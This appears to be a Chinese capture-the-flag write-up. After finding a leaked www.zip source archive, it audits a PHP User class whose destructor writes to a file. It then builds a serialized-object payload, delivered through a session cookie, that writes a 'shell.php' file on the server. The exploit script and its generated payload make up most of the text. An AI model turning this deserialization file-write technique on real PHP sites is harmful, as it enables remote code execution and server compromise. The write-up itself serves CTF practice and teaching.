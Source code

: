 sql注入无果。

`www.zip` 源码泄露。

用 `seay` 审计一波。

发现 `/inc/inc.php` 可文件写入：

```php
class User{
    public $username;
    public $password;
    public $status;
    function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
    function setStatus($s){
        $this->status=$s;
    }
    function __destruct(){
        file_put_contents("log-".$this->username, "使用".$this->password."登陆".($this->status?"成功":"失败")."----".date_create()->format('Y-m-d H:i:s'));
    }
}
```

在`index.php` 中

```php
session_start();
```

构造 exp :

```php
<?php
class User{
    public $username;
    public $password;
}

$user = new User;
$user->username = "shell.php";
$user->password = "phpinfo()";
echo urlencode(base64_encode('|'.serialize($user)));
```

生成

```txt
fE86NDoiVXNlciI6Mjp7czo4OiJ1c2VybmFtZSI7czo5OiJzaGVsbC5waHAiO3M6ODoicGFzc3dvcmQiO3M6OToicGhwaW5mbygpIjt9
```

修改cookie[limit]为exp生成的字符串

![image-20210203112422590](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210203112422590.png)
